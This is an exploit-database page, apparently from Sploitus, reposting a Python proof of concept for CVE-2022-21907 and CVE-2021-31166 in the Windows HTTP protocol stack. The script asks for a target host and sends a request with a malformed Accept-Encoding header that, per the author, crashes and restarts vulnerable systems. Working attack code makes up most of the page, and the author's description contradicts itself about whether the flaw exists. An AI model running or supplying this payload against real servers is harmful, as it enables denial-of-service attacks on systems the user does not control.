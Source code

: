 ```yaml
---
title: Windows 10 v21H1 - HTTP Protocol Stack Remote Code Execution Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38855&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-11
fetch_date: 2025-10-04T11:52:38.488242
---
```


# Windows 10 v21H1 - HTTP Protocol Stack Remote Code Execution Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Windows 10 v21H1 - HTTP Protocol Stack Remote Code Execution Exploit CVE-2021-31166 CVE-2022-21907

2023-07-10 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38855
## Title: Windows 10 v21H1 - HTTP Protocol Stack Remote Code Execution
## Author: nu11secur1ty
## Date: 01.14.2022
## Vendor: https://www.microsoft.com/
## Software: https://www.microsoft.com/en-us/download/details.aspx?id=48264
## Reference: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-21907
## CVE-2022-21907

## Description:
NOTE: After a couple of hours of tests and experiments, I found that
there have been no vulnerabilities, this is just a ridiculous
experiment of Microsoft. When I decided to install the IIS packages on
these Windows platforms, everything was ok, and everything is patched!
Windows Server 2019, Windows 10 version 1809 - 2018 year are not
vulnerable by default, but after I decided to upgrade from 1909 to
2004. I found a serious problem! The Windows 10 version 2004 - 2020
year is still vulnerable to the HTTP Protocol Stack (HTTP.sys). Attack
method: buffer overflow - deny of service and restart the system. This
problem exists, from last year which is reported on CVE-2021-31166,
and still there! On that days I have worked on it again with the help
and collaboration of Axel Souchet 0vercl0k the author of the idea. On
that day, I wrote an only one-line command to exploit this
vulnerability!

[+]Exploit:
```python
#!/usr/bin/python
# Author @nu11secur1ty
# CVE-2022-21907

from colorama import init, Fore, Back, Style
init(convert=True)
import requests
import time

print(Fore.RED +"Please input your host...\n")
print(Style.RESET_ALL)

print(Fore.YELLOW)
host = input()
print(Style.RESET_ALL)

print(Fore.BLUE +"Sending of especially malicious crafted packages,
please wait...")
print(Style.RESET_ALL)
time.sleep(17)

print(Fore.GREEN)
# The PoC :)
poc = requests.get(f'http://{host}/', headers = {'Accept-Encoding':
'AAAAAAAAAAAAAAAAAAAAAAAA,\
	 BBBBBBcccACCCACACATTATTATAASDFADFAFSDDAHJSKSKKSKKSKJHHSHHHAY&AU&**SISODDJJDJJDJJJDJJSU**S,\
	 RRARRARYYYATTATTTTATTATTATSHHSGGUGFURYTIUHSLKJLKJMNLSJLJLJSLJJLJLKJHJVHGF,\
	 TTYCTCTTTCGFDSGAHDTUYGKJHJLKJHGFUTYREYUTIYOUPIOOLPLMKNLIJOPKOLPKOPJLKOP,\
	 OOOAOAOOOAOOAOOOAOOOAOOOAOO,\
	 ****************************stupiD, *, ,',})
# Not necessary :)
print(poc,"\n")
print(Style.RESET_ALL)
```

## Reproduce:
[href](https://github.com/nu11secur1ty/Windows10Exploits/tree/master/2022/CVE-2022-21907)

## Proof and Exploit
[href](https://www.nu11secur1ty.com/2022/01/cve-2022-21907.html)

## Time spend:
05:30:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)